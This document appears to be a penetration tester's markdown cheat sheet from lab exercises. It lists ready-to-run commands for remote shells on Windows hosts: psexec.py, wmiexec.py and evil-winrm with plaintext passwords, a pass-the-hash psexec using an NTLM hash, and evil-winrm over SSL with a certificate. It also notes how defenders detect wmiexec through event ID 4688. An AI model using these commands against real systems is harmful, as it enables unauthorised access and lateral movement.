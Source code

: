 ## psexec
```powershell
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 
```

## wmiexec
```powershell
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

Note that this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. The downside of this is that if a vigilant defender checks event logs and looks at event ID 4688: A new process has been created, they will see a new process created to spawn cmd.exe and issue a command. This isn't always malicious activity since many organizations utilize WMI to administer computers, but it can be a tip-off in an investigation

## evil-winrm
```bash
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

# Pass-The-Hash

## psexec
```bash
psexec administrator@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

# SSL

## evil-winrm
```bash
evil-winrm -S -i 10.10.10.103 -u amanda -p Ashare1972 -c cert.cer -k amanda.key 
```